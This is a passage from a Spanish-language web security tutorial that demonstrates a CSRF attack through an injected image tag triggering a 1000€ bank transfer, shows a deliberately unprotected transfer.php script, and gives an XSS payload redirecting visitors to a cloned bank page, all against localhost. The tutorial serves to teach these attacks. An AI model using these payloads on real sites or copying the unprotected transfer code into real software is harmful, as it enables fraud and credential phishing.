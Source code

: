 ```html
<img src='http://localhost:8000/transfer.php?quantity=1000&user=juan'>
```

Por lo que ahora, cada vez que **Mario**, acceda a esa página enviará 1000€ a **Juan**. 

La página `transfer.php` contiene el siguiente código:

```php
<?php
session_start();
if (!$_SESSION['ya_registrado']){
	header('Location: login.php');
}
$from = $_SESSION['usuario'];
$to = $_GET['to'];
$quantity = $_GET['quantity'];
//Este código es una simplificación 
$BD = "Transferencia realizada de $from a $to; cantidad: $quantity";
$fichero = 'transfers.txt';
// Abre el fichero para obtener el contenido existente
$actual = file_get_contents($fichero);
// Escribe el contenido al fichero
file_put_contents($fichero, $BD, FILE_APPEND);
```

 

Y este código, es el que representa la página `hackeada-csrf.html`:

```html
Esta es una página que ha sido hackeada mediante XSS.
Al acceder, realiza una transferencia de 1000 € al atacante.
<img src='http://localhost/transfer.php?quantity=1000&to=juan'>
```



La cual se muestra a **Mario** de la siguiente forma cuando accede a su página atacada.

![](/patrickcampillo/assets/img/valentradas/12-1.png)







## Redirigir a otra web

Por último, veremos otro tipo de ataque **XSS**, el cual realiza una redirección a una web controlada por el atacante, pero que visualmente, esta representada igual que la real. Por ejemplo si creamos la siguiente página, llamada `hackeada-redirect.html`:

```php
<!DOCTYPE html>
<html lang="es">
<head>
<meta charset="utf-8">
</head>
<body>
    Esta es una página que ha sido hackeada mediante XSS.
Al acceder, reenvía al visitante a una página controlada por un hacker
<script>document.location = 'http://localhost:8080/clon-de-mi-banco.html'</script>
</body>  
```
